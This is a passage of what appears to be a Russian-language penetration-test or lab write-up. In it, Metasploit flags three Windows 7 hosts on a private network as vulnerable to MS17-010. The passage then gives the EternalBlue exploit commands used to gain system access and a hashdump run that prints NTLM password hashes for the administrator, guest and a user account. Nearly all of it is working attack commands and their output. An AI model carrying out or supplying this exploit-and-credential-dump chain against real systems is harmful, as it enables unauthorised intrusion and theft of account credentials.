 ```
rhosts => 10.11.239.5
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.11.239.5:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.11.239.5:445       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
```
rhosts => 10.11.239.6
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.11.239.6:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.11.239.6:445       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

```
rhosts => 10.11.240.14
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.11.240.14:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.11.240.14:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```


Запустили на них сплоит и получим системный доступ

```
use exploit/windows/smb/ms17_010_eternalblue
set rhosts <IP>
run
```

Сдампили все ntlm хэши

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > use post/windows/gather/hashdump 
msf6 post(windows/gather/hashdump) > set session 2
session => 2
msf6 post(windows/gather/hashdump) > run

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 791b05821400438629a2a79f2923fa52...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

cadm:";)"

[*] Dumping password hashes...


Администратор:500:aad3b435b51404eeaad3b435b51404ee:4c24dc6d6c75dee89c887b44a02285ee:::
Гость:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
cadm:1000:aad3b435b51404eeaad3b435b51404ee:3e3b78359fdb827d5d348b7b923f4e55:::


[*] Post module execution completed
```
